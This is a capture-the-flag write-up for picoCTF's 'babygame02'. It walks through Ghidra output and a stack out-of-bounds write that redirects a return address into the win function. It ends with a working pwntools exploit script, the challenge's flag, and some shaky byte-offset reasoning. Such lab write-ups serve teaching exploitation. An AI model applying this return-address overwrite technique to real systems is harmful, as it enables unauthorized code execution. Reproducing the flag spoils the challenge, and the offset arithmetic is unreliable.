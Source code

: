 # babygame02

## Method

```
Break the game and get the flag.
Welcome to BabyGame 02! Navigate around the map and see what you can find! The game is available to download here.
There is no source available, so you'll have to figure your way around the map. You can connect with it using nc saturn.picoctf.net 59056.
```
**Hint1:** Use 'w','a','s','d' to move around. There may be secret commands to make your life easy.


Similar challenge as to babygame01 grid like structure moving to the final location for the flag but not recieving it.

I shoved it into ghidra like before to see how I could solve it. 

```c
undefined4 main(void)

{
  int iVar1;
  int local_aa8;
  int local_aa4;
  undefined local_a9d [2700];
  char local_11;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  init_player(&local_aa8);
  init_map(local_a9d,&local_aa8);
  print_map(local_a9d,&local_aa8);
  signal(2,sigint_handler);
  do {
    do {
      iVar1 = getchar();
      local_11 = (char)iVar1;
      move_player(&local_aa8,(int)local_11,local_a9d);
      print_map(local_a9d,&local_aa8);
    } while (local_aa8 != 0x1d);
  } while (local_aa4 != 0x59);
  puts("You win!");
  return 0;
}

```
Glancing at the c function its similar but with 1 glaring issue. We do not have the supposed Test condition for printing the flag.

However it seems the initilizations etc are still the same.
Looking again at the functions like ``init_player`` and ``init_map`` we realise its similar even ``move_player`` they have provided the same function which we can use to cause underflows in the game, This is due to the ``map_buf[(player_y_pos * 0x5a) + player_x_pos)] = player_title;`` where the value player_title value gets written into the LSB due to the ``(player_y_pos * 0x5a) + player_x_pos)``. 

**However in this the move_player() function clears the previous position (using '.') before writing the new position meaning we need to find a specific location to overwrite a address directly.**

investigating all functions we finally see the win funciton however it seems as though from our C function there is no possible way to go to it ;-;

---

**Note:**

As discussed before in babygame01 we know memory here is used in the form of a stack where it grows 'downwards' in the memory meaning address decreases as we add more things. Each function has it's own stack frame.

For this stack we have two things ESP (Stack Pointer) and EBP (Base Pointer)

1. ESP (register) the stack pointer points to the top of the stack or the most recently entered value.

2. EBP(register) Serves as a fixed reference point for the current Stack being used.

We also have general purpose registers liek EAX, EBX etc...

---

`` address opcodes(operations) operation function ``
The decompiled assembly in ghidra has this format ^ 

*Note:*

- LEA = Load Effective Address (calculates new address loading it in a register)
- PUSH = pushes a new value onto the stack
- Mov = transfers data from one location to another

---

### Coming up with a solution now

Considering the previous game we can traverse acrossss the memory byte by byte And we can change one byte anywhere in the stack with the name of the player as shown before. The easiest way to go about this is changing the move_player's return address to be any of the addresses within win function which is around  ``0804975d`` or greater 

![image](https://github.com/user-attachments/assets/183d46d1-54a2-4b39-971c-9c53c5dddf92)

From this we can understand a certain bytes workflow on how to possibly traverse to it.

Looking at main first we start calculating the number of bytes from main first.

![image](https://github.com/user-attachments/assets/95597c34-fa3c-4d93-b1e7-a3be4aa37439)

Statements before this used to setup the stack.

```asm
        0804967e 55              PUSH       EBP
        0804967f 89  e5           MOV        EBP ,ESP
        08049681 53              PUSH       EBX
        08049682 51              PUSH       ECX
        08049683 81  ec  a0       SUB        ESP ,2720
                 0a  00  00
```

Then we can Start looking at move_player

![image](https://github.com/user-attachments/assets/8b014747-64be-43b4-8333-dfe0ca0bc57f)

```asm
        080496f2 83  ec  04       SUB        ESP ,4
        080496f5 8d  95  6b       LEA        EDX => local_a9d ,[EBP  + -2709 ]
                 f5  ff  ff
        080496fb 52              PUSH       EDX
        080496fc 50              PUSH       EAX
        080496fd 8d  85  60       LEA        EAX => local_aa8 ,[EBP  + -2720 ]
                 f5  ff  ff
        08049703 50              PUSH       EAX
        08049704 e8  6b  fd       CALL       move_player                                      undefined move_player(undefined4
                 ff  ff
```

```
EBP // 4 bytes
EBX // 4 bytes
ECX // 4 bytes
^
|
| 2720 Bytes
v
sub 4 // 4 bytes
param EDX (EBP - 2709) // 11 bytes
param EAX // 4 bytes
dont care about param EAX (EBP - 2720) // 0 bytes refers to existing offset
param local_aa8 // 4 bytes
return address (08049709) // 4 bytes
```

From here we start calculating the number of bytes for each statement

- 4 x 3 for the first 3 Lines

- We consider 4 btytes for the sub 4

- Then we have to consider the fact that we move 2709 back up which is 11 bits from the already moved 2720 

- We can then consider 4 x 3 for the last 3 statements for the return address

Adding all of this we get 39 bytes. Meaning we need to underflow 39 bytes from the buffer Array

However after about 4 movements left the program crashed with SIGSEGV (segmentation fault). To which i can assume i had overwritten something important on the stack due to what the player does now hence why it had crashed. As each time we move the player it seems to change the value to ``.`` then move hence overwritting important stuff on the stack. To avoid this i move once up an extra time before moving to the required offset

I then proceeded to change the name of the player to the value that i want to traverse through Looking at the win condition I can understand that i must traverse to the ``08049770`` or any number above that. Like the previous challenge where we had ``@`` there to write to least significant LSB of the register so again we have to do the same this time pointing it directly to 70. In hex 70 to ascii is ``p`` hence we can change the name to p this allows us to underflow whatever comes next with the lsb 70 moving us to it. **P.S I tried values of ``5d`` to 70 but none worked for me and upon trying 70 worked.**

Now from here I underflow 39 bytes (moving me into the return address). After this accounting for the fact that i had to move up an extra once to avoid a fault i can then move down once. Which then returns my flag :D

Script for insta solve:

```python
from pwn import *

p = remote("saturn.picoctf.net", 59056)

p.sendline("aaaawwwww")
p.sendline("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
p.sendline("lp")
p.sendline("s")

p.interactive()
```

## Flag

> picoCTF{gamer_jump1ng_4r0unD_227ec6b0}
